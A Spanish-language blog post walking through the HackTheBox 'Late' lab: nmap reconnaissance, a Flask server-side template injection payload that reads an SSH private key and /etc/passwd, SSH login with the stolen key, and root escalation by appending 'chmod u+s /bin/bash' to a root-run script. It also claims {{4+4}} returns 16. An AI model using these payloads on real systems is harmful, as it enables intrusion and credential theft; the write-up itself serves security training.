 ```yaml
---
layout:   post
title:    "Write Up Late."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Upload,SSTI,SSH,Hydra,Write-Up-Machine,Starting-Point,eWPT,OSWE,OSCP]  
---
```

![list](/assets/img/late/late.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.156 -oA allports
```

El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,80 -sV -sC 10.10.11.156 -oN target
```


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb con esto no conseguimos nada.

![list](/assets/img/late/Arch-2022-06-15-16-58-15.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `ctrl + u` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-21-31.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `gobuster` podemos encontrar el dominio `images.late.htb` en cual ingresamos al `/etc/host` y recargamos.

![list](/assets/img/late/Arch-2022-06-15-16-33-26.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En este dominio vemos que podemos subir archivos pero tambien algo interesante `with Flask` y muchas de las veces es vulnerable a `Server Side Template Injection`.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-56-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con libreOfice subimos una imagen con "\{\{4+4\}\}". 

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-06-03.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como la respuesta es `16` corrovoramos que si es vulnerable a SSTI. 

Sabiendo esto usaremos un payload de  [PayloadsAllTheThings] crearemos una imagen que nos permita ejecutar comandos tal para ver los `usuarios` y la `id_rsa`.

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-48-23.png){:.lead width="800" height="100" loading="lazy"}

```default
\{\{ cycler.__init__.__globals__.os.popen('id; cat ~/.ssh/id_rsa').read() \}\}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta es la id_rsa. 

Tenemos su id_rsa, ahora consigamos elusuario para entonces conectarnos atraves de ssh.

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-18-52.png){:.lead width="800" height="100" loading="lazy"}

```defaul
\{\{ cycler.__init__.__globals__.os.popen('id; cat /etc/passwd').read() \}\}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta son los usuarios.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, podemos ver con pspy que root ejecuta un archivo llamado `ssh-alert.sh` cada que iniciamos sesión por ssh.

```bash
echo "chmod u+s /bin/bash" >> ssh-alert.sh
```

{:.note}
Inyectamos1 permisos u+s al archivo ssh-alert.sh y nos salimos ppero nos volvemos a conectarpor ssh.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


![list](/assets/img/late/Parrot-SO3-2022-08-01-17-11-25.png){:.lead width="800" height="100" loading="lazy"}


Para este punto solo debemos hacer `bash -p` y buscar las flag del user y la de root que estanen los escritoriosde svc_acc y de /root respectivamente.

***
```bash
🎉 Felicitaciones ya has comprometido Late de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}--->